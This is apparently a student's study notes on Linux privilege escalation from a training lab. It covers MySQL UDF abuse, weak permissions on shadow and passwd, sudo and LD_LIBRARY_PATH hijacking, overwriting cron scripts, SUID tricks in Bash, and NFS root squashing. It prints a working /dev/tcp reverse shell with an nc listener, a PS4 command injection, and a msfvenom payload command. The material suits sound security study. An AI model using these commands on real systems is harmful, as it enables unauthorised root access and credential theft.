 ### Service Exploitation

>[!Scenario]
>We have a service running as a root and the root user for the service has no password assigned.  The service has a _User Defined function_ feature.  The service is _MySQL_


_approach..._
1. find for available exploit. [here](https://www.exploit-db.com/exploits/1518)
2. follow the procedure described on the exploit 
3. gain the root shell. 

>[! Takeaway]
> `UDFs` --) is essentially a set of instructions you create to perform a specific task within a program. Think of it as a mini-program you can write to avoid repeating the same code over and over.
> If we are allowed to log in as a `root` and create a service, let that service be moving the `/bin/bash` file with `SUID` permission to our accessible environment. Wollaa

_What is it about `/bin/bash` , tho?_

 - it is a symbolic link that points to the actual Bash executable on your system.


### Weak File Permission
#### Readable /etc/shadow

>[! Scenario]
> found a readable /etc/shadow file, where the password of users is stored, including of root. 

_What can we do to exploit this?_

- well, use copy the file to somewhere else and use `john` to crack it.


### Weak File Permissions - Writable /etc/shadow

>[! scenario] 
>The `/etc/shadow` file is not readable, but it's `world-writable` - anybody could write on it.

_Exploitation,..._
- well write on it
- replace the hashed pass of the root user with the new password hashed.  
- or create a new user with root privilege and sing in with it

### Writable /etc/passwd
_Exploitation_
- replace the `X` of password field of root user and save the system from checking from `/etc/shadow` 

### `Sudo` - Shell Escape Sequence 

To list list of programs that the `sudo` allows their user to run with elevated privilege  

```zsh
sudo -l
```

_Why do we care about these programs?_
There's something for us [here]([https://gtfobins.github.io](https://gtfobins.github.io/))

### `sudo` - Environment variables

the output of `sudo -l` also contains inherited environment variables,  

These variables might contain list of directories where shared libraries are searched for first

> while opening the `sudo` allowed programs set the environment variable to the directory where the malicious program is in. Remember to name the mal program with the name the program searches it to be.

_Example_
use..
```zsh
ldd /usr/sbin/apache2
```

to see shared libraries used by `apache2`

say you have `libcrypt.so.1`

now put the malicious file to `/tmp` folder with the name  `libcrypt.so.1` 

now open the apache2 program as follows 
```zsh
sudo LD_LIBRARY_PATH=/tmp apache2
```

### Cron Jobs

- Cron table files (crontabs) store the configuration for cron jobs.
- The system-wide crontab is located at `/etc/crontab`.

>[! Scenario]
> while exploring `/etc/crontab` file you saw a script `overwrite.sh` that runs every 5 minutes. Further investigation of this file revealed that this file is world-writable 

_how to exploit this?_

- well it could be overwritten, therefore... find a good script that grants us a root shell
- how about this, 
```zsh
#!/bin/bash  
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```
#### code breakdown
- `#!/bin/bash  ` shebang, specifies that the script should be interpreted by Bash shell `/bin/bash`
- `bash -i` starts new Bash shell session
- `>&` double greater than, for both standard output and standard error redirection
- `dev/tcp/10.10.10.10/4444 ` specifies target for redirection
- `0>&1` redirects file descriptor '0', which is input, is redirected to where previous stdout and stderr is redirected.  

the attacker shall listen to the upcoming connection by opening a port on his machine 
```zsh
nc -nvlp 4444
```

### SUID/ DGID Executable

to find SUID/SGID executable on Debian 
```zsh
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

then try to find exploitable file from those files
`or`
try to exploit though the shared object. The drill is to inject the malicious file for the shared object.

To see shared objects one can use `strace`

### SUID / SGID Executables - Abusing Shell Feature

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.
```zsh
function /usr/sbin/service { /bin/bash -p; }  
export -f /usr/sbin/service
```

therefore now when we run a SUID program that uses `/usr/sbin/service` path, what actually executed is the function we defined. therefore, wuollaaa

Again in Bash versions <4.4, when in debugging mode Bash uses the environment variable `PS4` to display an extra prompt for debugging statements.
What if we try to insert a command when prompted, 
```zsh
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

have a closer look on `PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)'` part. 

now we can do `/tmp/rootbash -p` to get to `root`

### History file
the user(root) might have stroke the pass keys mistakenly, so taking a look doesn't hurt
```zsh
cat ~/.history | less
```

### Config file
another place to look for a password is `config files`

### SSH Keys
try to look at `ls -l /.ssh`, you might get unprotected key
for ssh to use it, do ``chmod 600 root_key``
then try to log in using this key 

```zsh
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP
```

### NFS

Files created via NFS inherit the **remote** user's ID. If the user is root, and root squashing is enabled, the ID will instead be set to the "nobody" user.

take a look at `cat /etc/exports` for a mount point where `root-squashing` is disabled.

1. on attacker's machine `mkdir /tmp/nfs`
2. `mount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs` -- assume `/tmp` is the no-root-squashing file
3. generate payload 
	``msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf``

	